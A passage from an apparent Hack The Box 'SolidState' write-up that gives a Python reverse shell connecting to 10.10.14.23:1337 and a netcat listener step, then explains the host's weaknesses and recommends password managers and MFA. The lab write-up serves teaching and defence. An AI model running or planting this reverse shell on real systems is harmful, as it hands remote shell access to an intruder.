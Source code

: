 ```python
#!/usr/bin/env python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.23",1337))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Setup a netcat listener on a new port, and wait ...

![htb-solidstate-14](/images/htb/solidstate/htb-solidstate-14.png)


# <a name="deconstruct"></a>Deconstructing the hack
In this challenge, the following things all played a part in the compromise of this host.

* User credentials sent via mail in clear text
* Misconfigured file permissions
* Remote code execution vulnerability in the mail application

---

## Clear text credentials

Clear text credentials are **always** a recipe for disaster. As shown in this write-up, you never know who will be able to see them, or what someone can use them for. 

Unfortunately, in my experience, I see this type of horrible practice executed regularly by IT professionals. I don't know whether it's complacency or just plain laziness, but for some reason, people think this is OK. **It's not.** If you see it happening in your organization, do the responsible thing and inform your IT/Security team of your concerns.

One of the best ways to mitigate this risk is by using a password credential manager, with randomly generated passwords. Many of these applications such as [LastPass](https://www.lastpass.com), [1Password](https://1password.com) or [PasswordState](https://www.clickstudios.com.au) have Enterprise features that facilitate the sharing of credentials in a secure and manageable way.

Additionally, enforcing multi-factor authentication wherever possible will go a long way in keeping your accounts and resources safe from abuse.

--- 

## Misconfigured file permissions
